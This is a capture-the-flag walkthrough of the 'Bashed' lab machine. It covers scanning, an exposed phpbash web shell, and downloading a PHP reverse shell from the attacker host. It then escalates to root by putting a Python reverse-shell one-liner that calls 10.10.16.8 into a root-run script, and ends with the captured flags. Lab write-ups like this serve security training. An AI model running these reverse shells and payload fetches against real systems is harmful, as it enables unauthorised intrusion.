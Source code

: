 # Bashed
### Nmap scan
```bash
nmap -sC -sV -oA <IP>
```
![nmap](../../Assets/walktrhough-assets/bashed/2025-02-13.png)

# Directory Busting
```bash
feroxbuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.129.80.188
```
# Found:
- /upload
- /php
- /dev
- /images

### Exploiting with phpbash
http://10.10.10.68/dev/phpbash.php is accessible which means we have a shell. 😲

The **/dev** has two files and when run the phpbash.php we get a shell where we can run commands from the webpage. 

![webshell](../../Assets/walktrhough-assets/bashed/2025-02-13_1.png)
The /upload directory allows uploads.
Hosting the php-reverse-shell.php file on the attacker machine via python.

```bash
locate php-reverse-shell.php
python3 -m http.server
```
Make sure the script $ip and $port are change to kali/attacker machine and listening port.

Back to the webpage to get the file via `wget`

```bash
wget http://<kali IP>:8000/php-reverse-shell.php
```

Start the listener on the Kali
```bash
nc -lvnp 88888
```
Run the scrip or reload the page **http://<bashed-ip>/dev/php-reverse-shell.php**

Get the shell.

### User Flag
```bash
$ cd home
$ ls
arrexel
scriptmanager
$ cd arrexel
$ ls
user.txt
$ cat user.txt
1b6901a1040b46fa1eee0c9b450ac920
$ 
```

### PrivEsc

Presistant the shell.
```bash
python3 -c 'import pty; pty.spawn("bin/bash")'
# Control + Z to background the shell.
stty raw -echo
fg ## ENTER few times
sudo -u scriptmanager bash
```
### Output
```bash
scriptmanager@bashed:/scripts$ id
uid=1001(scriptmanager) gid=1001(scriptmanager) groups=1001(scriptmanager)
```

Now the shell is presistent and navigating to the script directory is possible.

### Two files: 
1. test.py
2. test.txt
These files are writable.
These files have a root ownership. date are craeted and update as the box is being pawned.

![webshell](../../Assets/walktrhough-assets/bashed/2025-02-14.png)

### Reverse Shell .py
Search for erverse shell python and try few by adding to the **test.py** file to get the reverse shell.

```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.8",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```
after saving the revershell to the test.py and start the listener on port 1234, type `date` on the shell and give it few seconds before get the callback as a root shell.
![webshell](../../Assets/walktrhough-assets/bashed/2025-02-14_2.png)

### Root flag
```bash
# cd root
# ls
root.txt
# cat root.txt
6551a1b39055cb184e69ab41c7951c4f
```